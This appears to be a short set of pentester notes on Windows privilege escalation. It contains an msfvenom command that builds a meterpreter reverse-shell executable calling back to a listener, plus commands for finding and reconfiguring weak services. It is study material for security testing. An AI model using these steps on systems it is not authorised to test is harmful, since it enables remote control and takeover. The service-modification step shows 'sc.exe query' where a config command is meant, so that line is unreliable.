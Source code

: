 # Windows Privilege Escalation
Check out these repositories:

[WHP](https://github.com/51x/WHP) List of low hanging exploits to try

## Metasploit
If you are able to catch a meterpreter shell, always check post/multi/recon/local_exploit_suggester first.
```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f exe -o reverse.exe
```

Also use the meterpreter command `getsystem`

## Service Exploits
See what users are available
```cmd
> net user
```

[Here](https://docs.microsoft.com/en-us/windows/win32/services/service-user-accounts) are service users. 99.9% of the time you want LocalSystem.

See what write permissions you have for all services using [accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
```cmd
> accesschk.exe /accepteula -uwcqv <user> *
```

Query the configuration of a service
```cmd
> sc.exe qc <name>
```
Query the current status of a service
```cmd
> sc.exe query <name>
```
Modify a configuration option of a service. Here are a list of [options/values](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-config)
```cmd
> sc.exe query <name> <option>= <value>
```
Start/stop services
```cmd
> net start/stop <name>
```